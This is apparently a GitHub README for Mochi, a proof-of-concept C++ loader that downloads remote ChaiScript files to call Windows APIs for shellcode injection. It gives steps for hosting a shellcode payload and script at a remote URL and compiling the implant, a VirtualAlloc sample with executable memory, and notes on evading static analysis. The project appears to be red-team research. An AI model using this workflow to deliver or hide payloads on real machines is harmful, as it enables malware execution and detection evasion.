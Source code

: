 # Mochi | 餅

![logo](mochi-img.png)

## Overview
Mochi is a proof-of-concept C++ loader that leverages the [ChaiScript](https://chaiscript.com/) embedded scripting language to execute code. It is based on the [lcscript](https://github.com/domzigm/lcscript) project that extends ChaiScript with native Windows API call support. Mochi was built to allow remote loading of ChaiScript files that orchestrate lower level code and execute offensive actions with the Windows API.

Using a scripting language to extend malware in C++ is not a new idea. Of notable mention is the [Flame malware](https://en.wikipedia.org/wiki/Flame_(malware)), whose authors scripted high-level logic in [Lua](https://www.lua.org/). However, Mochi demonstrates that ChaiScript can be a viable alternative for implementing modularity and interacting with the Windows API from a scripting language. Additionally, ChaiScript was designed from the beginning to be used with C++. This makes integration and development straightforward for projects written in that language.

Inspiration for this capability came from the game development community and their usage of scripting languages with game engines. ChaiScript has been integrated into several game engines to support scripting functionality. For reference, see the following projects:
* https://github.com/libretro/libretro-chailove
* https://github.com/sainteos/nymph-game-engine
* https://gitlab.com/define-private-public/Masala

![screen_0](https://i.imgur.com/VhwNCdO.png)

## Features
* Code to perform tasks such as process injection can be omitted from the loader until required by an operator at runtime.
* Easily extend the Mochi loader with additional functionality using ChaiScript files. 
    * Included sample script ([inject.chai](Mochi/scripts/inject.chai)) demonstrates usage of the Windows APIs (VirtualAlloc, RtlMoveMemory) to setup shellcode injection.

## Limitations
* Code used to expose ChaiScript to the Windows API is no longer maintained by the original author.
* Usage of pointers within ChaiScript Windows API calls is complicated.
* A limited number of Windows API calls have been tested and successfully used within ChaiScript, there may be issues with implementing more complicated APIs.
* The `inject.chai` script sets up memory for process injection, but relies on a function defined within `Mochi.cpp` to perform the execution.

## Setup

### Build Environment
* A Windows 10 host was used as the environment for testing/compilation. 
* Visual Studio 2019 was used for development of this project.
* The Visual Studio package [Desktop Development with C++](https://devblogs.microsoft.com/cppblog/windows-desktop-development-with-c-in-visual-studio) was installed to support building the implant in C++.
* vcpkg was used to build and install the required ChaiScript libraries, it can be installed [here](https://github.com/microsoft/vcpkg#quick-start-windows).

### Automated Installation with vcpkg
I've used the script located [here](/helper_scripts/install_chaiscript_cpp_deps.ps1) to automate installation of **vcpkg** and the **ChaiScript** libraries on my host. Use this if you don't already have vcpkg installed.
* **NOTE:** Git is needed to fetch the vcpkg from GitHub and can be installed for Windows [here](https://gitforwindows.org).

### Manual Installation with vcpkg

To build the ChaiScript libraries, navigate to the location of your vcpkg install and execute the following command:
```
.\vcpkg.exe install chaiscript:x64-windows-static
```

## Usage

### Proof-of-Concept
The Mochi loader implements local process injection of a shellcode payload. This is intended to demonstrate the technique of using ChaiScript files that leverage the Windows API for offensive tasks. To do this, you'll need to perform the following steps:
1. Generate a shellcode payload in binary format.
* During testing, [sRDI](https://github.com/monoxgas/sRDI) was used to convert a [message box payload](https://github.com/monoxgas/sRDI/tree/master/TestDLL) DLL file to a shellcode "*.bin" file.
2. Upload the shellcode payload binary file to a remote hosting location, such as an S3 bucket. Obtain the URL and note it down.
3. Execute the following PowerShell helper script with your shellcode payload URL:
```
.\helper_scripts\chaiscript_inject_module_init.ps1 -payloadUrl "https://example.com/shellcode.bin"
```
4. At this point, the `inject.chai` file at the `Mochi\scripts\` path will be populated with your shellcode payload URL and be ready to execute.
5. Upload the `inject.chai` file to a remote hosting location, such as an S3 bucket. Obtain the URL and note it down.
6. Execute the following PowerShell helper script with your ChaiScript file URL:
```
.\helper_scripts\chaiscript_inject_module_init.ps1 -scriptUrl "https://example.com/inject.chai"
```
7. At this point, the `Mochi.cpp` file at the `Mochi\` path will be populated with your ChaiScript file URL and be ready for compilation.
8. Compile Mochi in the Visual Studio project and execute binary to validate successful initialization.

### Writing Scripts
To demonstrate how scripts can be written with ChaiScript to call the Windows API, see the following steps to call VirtualAlloc from kernel32.dll inside a ChaiScript file:
1. Import the library:
```
var libKernel32 = LoadLibrary("kernel32.dll");
```
2. Initialize the desired function:
```
var allocMem = funCall();
allocMem.init(libKernel32, "VirtualAlloc", 2);
```
3. Set up the required arguments:
```
var payload = "\xde\xad\xbe\xef";
var size = payload.size();
var allocType = 0x00001000;
var memProtect = 0x40;

allocMem.argUInt64(0);
allocMem.argUInt64(size);
allocMem.argUInt64(allocType);
allocMem.argUInt64(memProtect);
```
4. Call the function and assign the return value to a variable:
```
var allocAddr = allocMem.evalUInt64();
```

## OPSEC Considerations
Due to the PoC nature of this project, it was not built with OPSEC in mind. However, I will outline some possible features that could be present in a production deployment of this kind of project as well as OPSEC caveats:
* Feature: Encryption/decryption of ChaiScript files.
* Feature: Obfuscation/deobfuscation of ChaiScript files.
* Feature: Addition of ChaiScript modules that implement more modern methods of shellcode injection.
* Feature: Built-in string obfuscation in Mochi.
* Caveat: Mochi obscures the malicious intent of the binary during static analysis by omitting offensive functionality until execution of ChaiScript files during launch. It will ***NOT*** change anything from an evasion standpoint when it is observed during dynamic analysis. Additional obfuscation and evasion would need to be implemented in the ChaiScript files themselves if the intent is to mislead dynamic analysis tooling.

## Credits
* Dominik for the Windows API call support: https://github.com/domzigm/lcscript
* ondradus for the PoC HTTP request code: https://github.com/ondradus/WinINet---Simple-GET-POST-request
